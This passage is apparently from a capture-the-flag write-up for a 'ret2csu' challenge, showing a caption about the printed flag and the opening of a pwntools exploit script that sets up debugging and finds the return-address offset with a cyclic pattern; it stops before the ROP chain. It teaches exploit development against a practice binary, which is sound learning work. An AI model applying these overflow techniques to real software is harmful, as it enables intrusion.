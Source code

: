 ![Terminal output from running the exploit script, printed out the flag.](ret2csu-done.png)

The full exploit:

```python
#!/usr/bin/env python3
from pwn import *
context.bits = 64
context.arch = 'amd64'
context.terminal = ['kitty']

process_name = './ret2csu'

DEBUG = False
DEBUG_ARGS = '''
b pwnme
b *pwnme+152
b *__libc_csu_init+73
display/x $rdi
display/x $rsi
display/x $rdx
'''

elf = ELF(process_name)
rop = ROP(elf)

if DEBUG:
    p = gdb.debug(process_name, DEBUG_ARGS, env={})
else:
    p = process(process_name)

# wait until program is ready to receive input
p.recvuntil(b'> ')


def find_rip_offset():
    p.sendline(cyclic(500))
    p.wait()
    core = p.corefile
    stack = core.rsp
    info("rsp = %#x" % stack)
    pattern = core.read(stack, 4)
    rip_offset = cyclic_find(pattern)
```